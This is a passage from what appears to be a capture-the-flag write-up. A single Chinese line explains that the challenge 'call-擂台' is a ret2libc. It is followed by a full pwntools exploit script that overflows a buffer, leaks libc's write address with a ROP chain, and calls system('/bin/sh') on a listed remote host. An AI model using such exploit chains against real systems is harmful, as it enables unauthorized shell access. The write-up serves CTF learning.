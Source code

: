 ```python
p.interactive()
```
## call-擂台
还是ret2libc，没有puts函数，用write函数泄漏libc基址即可
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './libc-2.31.so'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12100'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b* main
        ''')

pop_rdi = 0x401273
pop_rsi_r15 = 0x401271
ret = 0x40101a
elf = ELF(elf_path)
libc = ELF(libc_path)
write_got = elf.got['write']
write_plt = elf.plt['write']
main = 0x401136

payload = b'a' * (0x60 + 0x8)
payload += flat([
    ret,
    pop_rdi, 1,
    pop_rsi_r15, write_got, 0,
    write_plt,
    main,
])
p.recvuntil(b'is\n')
p.sendline(payload)
write_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('write_addr: ' + hex(write_addr))
libc_base = write_addr - libc.symbols['write']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
payload = b'a' * (0x60 + 0x8)
payload += flat([
    ret,
    pop_rdi, binsh_addr,
    system_addr,
])
pause()
debug()
p.sendline(payload)

p.interactive()
```